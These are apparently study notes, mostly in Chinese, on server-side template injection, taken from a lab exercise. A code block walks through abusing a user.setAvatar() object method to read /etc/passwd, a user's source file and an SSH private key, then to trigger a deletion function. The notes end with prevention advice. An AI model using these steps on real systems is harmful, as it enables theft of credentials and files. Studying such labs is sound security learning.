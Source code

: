 ### Constructing a custom exploit using developer-supplied objects

默认情况下，某些模板引擎在**安全、锁定的环境**中运行，以尽可能降低相关风险

然而，虽然通常为模板内置提供大量文档，但几乎可以肯定的是，**站点特定对象根本没有文档**

```
lab：
upload an invalid  image ， find a method called user.setAvatar()
change name with user.setAvatar('/etc/passwd')
user.setAvatar('/etc/passwd','image/jpg')
GET /avatar?avatar=wiener to see the contents of the /etc/passwd file
user.setAvatar('/home/carlos/User.php','image/jpg')   find the gdprDelete() function 
user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')
user.gdprDelete()  and view your comment 
```

## How to prevent SSTI

防止服务器端模板注入的最佳方法是**不允许任何用户修改或提交新模板**。

最简单的方法之一是始终使用“无逻辑”模板引擎（如Mustach）

另一个措施是仅在**沙盒环境**中执行用户代码，其中潜在的危险模块和函数已被完全删除。不幸的是，对不受信任的代码进行沙箱处理本身就很困难，而且容易被绕过。

最后，接受任意代码执行几乎是不可避免的，并通过在**锁定的Docker容器中部署模板环境**来应用您自己的沙箱。